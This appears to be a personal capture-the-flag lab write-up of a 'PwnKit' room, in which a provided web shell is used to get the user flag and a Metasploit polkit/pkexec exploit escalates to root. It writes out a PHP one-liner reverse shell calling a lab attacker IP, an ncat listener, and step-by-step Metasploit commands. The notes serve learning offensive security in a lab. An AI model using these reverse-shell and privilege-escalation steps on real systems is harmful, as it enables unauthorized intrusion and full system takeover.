 # 🐚 PwnKit

#reverse_shell #linux_priv_escalation #web_shell

This room was about using a web shell to exploit a Linux machine and eventually perform privilege escalation to access the root folder.

>[!info]- Post Room Summary
>This room was rated "very easy" and took ~4-4half hours :(
>
>**User Own**
>This part of the room was easy (only taking around 10-15mins to complete) and I only needed three commands:
>- pwd
>- ls
>- cat
>  
>  The user flag was found using the command: `cat ../../../home/pwnmeow/user.txt`
>  
>  **System Own**
>  This part of the room was solid and required learning a lot. The tools / techniques I ended up needing were:
>  - reverse shell
>  - metaploit
>  - privilege escalation
>  - polkit exploit

---
# User Own

List of commands used:

`pwd` - to see where I currently am

This outputted: `/var/www/html`

From here I just explored the file system using cd and ls

---

# System Own

The room offered the hint:

```
This webshell is provided for an easy foothold on this machine. Exploitation will be done after gaining a reverse shell as a user account with limited privileges.
```

So I knew I needed to create a reverse shell using the web shell of the target. I had previously created a reverse shell in the [[Shocker]] room.

I originally created a reverse shell in the attacker terminal and this did work, however I decided to recreate it using Metasploit so that I could run exploits for the purpose of privilege escalation.

## Terminal Reverse Shell

I created a listener on the attack machine using NetCat:

```bash
ncat -lvnp 4444
```

Then I entered the following command into the web shell:

```php
php -r '$sock=fsockopen("10.10.14.15",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

This created the reverse shell and allowed me to explore the system.

After exploring around the system, I could not enter the `root` file, edit the `sudoers` file or do anything that required privileges. 

Researching the box's name `PwnKit` came up with clues as to how we could finish this pox. `PwnKit` is associated with a known exploit: Polkit.

Polkit is a user management service on linux and searching 'Polkit' on metasploit displayed some interesting options.

## Metasploit Reverse Shell

> It was this part of the box where I learnt some new things about Metasploit such as sessions!!

#### Getting the Reverse Shell

1. Run Metasploit using: `msfconsole`
2. Configure `multi/handler` to listen for incoming connections: `msf> use exploit/multi/handler`
3. Set the payload - since we are using a direct shell command (entered in the web shell) a generic TCP listener will do: `msf> set payload generic/shell_reverse_tcp`
4. Configure payload options - should match details used in php reverse shell code:
	1. `set LHOST 10.10.14.3`
	2. `set LPORT 4444`
5. Start the listener: `msf> exploit` or `msf> run`
6. Execute the PHP Reverse Shell in the web shell:
   ```
   php -r '$sock=fsockopen("10.10.14.3",4444);exec("/bin/sh -i <&3 >&3 2>&3"); '
   ```
   
   The Web Shell:
   ![[pwnkit_webshell.png]]
   
   Metasploit listening and receiving the connection:
   ![[metasploit_listener.png]]

#### Using the Metasploit Exploit

> Note: I am doing this write up after completing the lab (which took around 4 hours), how I came to know about polkit and pkexec I cannot remember but I had about 20 tabs open from research so came across them somehow - this is how I knew what to search in Metasploit

1. Send the reverse shell session into the background to keep it running while we load the exploit: `background`
2. Escape out of : `back`
3. Search for exploits that use polkit: `search polkit`
   ![[polkit_search.png]]
4. I previously tried 3 but this yielded no results so I tried 2 instead (since this listed polkit and pkexec): `use 2`
5. Set the options:
	1. `set LHOST 10.10.14.15`
	2. `set session 1` - `sessions` can be used to find a list of currently active sessions
6. Run the exploit: `run`
   As you can see in this screenshot, the exploit ran successfully and created a second Meterpreter session for me:
   ![[polkit_exploit.png]]
   
#### Using Root Privileges

After successfully using the exploit we now have a root session on the target machine. Using `ctrl+C` after running the exploit puts me back in the main menu and by running the command `sessions` I can see there are now two. To enter the 2nd which has root access I can use the command: `sessions -i <sessionID>`

![[metasploit_active_sessions.png]]
\- viewing active sessions

![[root_access.png]]
\- accessing root session and retrieving `root.txt` flag.

---

# 🔗 Useful Links

- [Reverse Shell Cheat Sheet](https://medium.com/@cuncis/reverse-shell-cheat-sheet-creating-and-using-reverse-shells-for-penetration-testing-and-security-d25a6923362e)
- [What is Web Shell](https://www.invicti.com/learn/web-shell/)

## ⛔ Not-So-Useful Links

These are the other websites I visited but did not get anything useful to this situation from them:
- [Sudo Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version)
- [hackthebox - tale of pwnkit](https://www.hackthebox.com/blog/The-tale-of-CVE-2021-4034-AKA-PwnKit-The-13-Year-Old-Bug)
- 